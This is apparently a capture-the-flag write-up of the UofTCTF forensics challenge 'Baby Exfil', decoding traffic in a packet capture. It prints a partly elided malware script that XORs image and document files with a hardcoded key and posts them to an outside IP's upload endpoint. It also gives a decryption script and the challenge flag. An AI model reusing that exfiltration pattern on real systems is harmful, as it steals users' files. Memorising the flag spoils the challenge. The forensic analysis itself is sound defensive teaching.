

## Overview

**Baby Exfil** is a forensics challenge where we analyze a packet capture (`.pcap`) file containing suspicious network traffic. The goal is to determine what actions the attacker took and retrieve any exfiltrated data.

| Category | Difficulty | Flag |
|----------|------------|------|
| Forensics | Easy | `uoftctf{b4by_w1r3sh4rk_an4lys1s}` |

---

## Initial Reconnaissance

Opening the PCAP in Wireshark, I filtered for HTTP traffic to look for cleartext commands or file transfers:

```bash
http.request.method == "GET" || http.request.method == "POST"
```

I noticed a suspicious GET request for a Python file named `/JdRlPr1.py` hosted on port 8000. Following the HTTP stream revealed the attacker's source code.

---

## Analyzing the Malware

The recovered script (`JdRlPr1.py`) contained the logic for the attack:

```python
import os
import requests

key = "G0G0Squ1d3Ncrypt10n"
server = "http://34.134.77.90:8080/upload"

def xor_file(data, key):
    result = bytearray()
    for i in range(len(data)):
        result.append(data[i] ^ ord(key[i % len(key)]))
    return bytes(result)

# ... [File walking logic targeting .docx, .png, .jpeg, .jpg] ...
# ... [Hex encoding and POST request] ...
```

### Key Findings

| Property | Value |
|----------|-------|
| **Encryption** | Simple XOR cipher |
| **Key** | `G0G0Squ1d3Ncrypt10n` |
| **Encoding** | XORed data → Hex string (`.hex()`) |
| **Exfil Target** | `POST http://34.134.77.90:8080/upload` |
| **Target Extensions** | `.docx`, `.png`, `.jpeg`, `.jpg` |

> [!IMPORTANT]
> The malware uses a simple XOR cipher with a hardcoded key - this makes decryption trivial since XOR is symmetric!

---

## Extracting the Exfiltrated Data

Filtering for traffic sent to the attacker's server:

```bash
http.request.method == "POST" && ip.dst == 34.134.77.90
```

I found **5 distinct POST requests**. Each request body contained a `file` parameter with a large hexadecimal string and a filename:

1. `3G2BHzj.jpeg`
2. `[File2].png`
3. `[File3].docx`
4. `[File4].jpg`
5. `[File5].png`

---

## Decryption & Recovery

Since XOR is a symmetric operation (`A ⊕ K ⊕ K = A`), I wrote a script to reverse the process:



### Decryption Script

```python
import sys

def decrypt_file(hex_data, output_filename):
    key = "G0G0Squ1d3Ncrypt10n"
    
    # Convert Hex to Bytes
    try:
        encrypted_bytes = bytes.fromhex(hex_data)
    except ValueError:
        print(f"[-] Error parsing hex for {output_filename}")
        return

    # XOR Decryption
    key_bytes = key.encode('utf-8')
    decrypted_data = bytearray()
    
    for i in range(len(encrypted_bytes)):
        decrypted_data.append(encrypted_bytes[i] ^ key_bytes[i % len(key_bytes)])

    # Write to file
    with open(output_filename, "wb") as f:
        f.write(decrypted_data)
    print(f"[+] Recovered {output_filename}")

# Run for all 5 hex blobs extracted from Wireshark
decrypt_file(hex_blob_1, "recovered_1.jpeg")
decrypt_file(hex_blob_2, "recovered_2.png")
decrypt_file(hex_blob_3, "recovered_3.docx")
decrypt_file(hex_blob_4, "recovered_4.jpg")
decrypt_file(hex_blob_5, "recovered_5.png")
```

---

## Finding the Flag

After running the script, I successfully recovered 5 files. Opening them one by one, I found the flag inside one of the recovered images (which verified correctly with the JPEG Magic Bytes `FF D8 FF`).

> [!TIP]
> **How to verify file recovery:** Check the magic bytes at the start of each file!
> - JPEG: `FF D8 FF`
> - PNG: `89 50 4E 47`
> - DOCX (ZIP): `50 4B 03 04`

---

## Summary

| Step | Action |
|------|--------|
| 1️⃣ | Analyzed PCAP for HTTP traffic |
| 2️⃣ | Extracted and analyzed malware script |
| 3️⃣ | Identified XOR encryption with hardcoded key |
| 4️⃣ | Extracted hex-encoded data from POST requests |
| 5️⃣ | Reversed the encryption process |
| 6️⃣ | Recovered original files containing the flag |

---

## Conclusion

This challenge demonstrated a classic data exfiltration scenario:
- 📡 **Network capture analysis** with Wireshark
- 🔍 **Malware reverse engineering** to understand the encryption
- 🔓 **XOR decryption** to recover stolen files

The key insight was recognizing that the attacker used a weak, symmetric XOR cipher with a hardcoded key, making the entire encryption scheme trivially reversible.

**Flag:** `uoftctf{b4by_w1r3sh4rk_an4lys1s}`
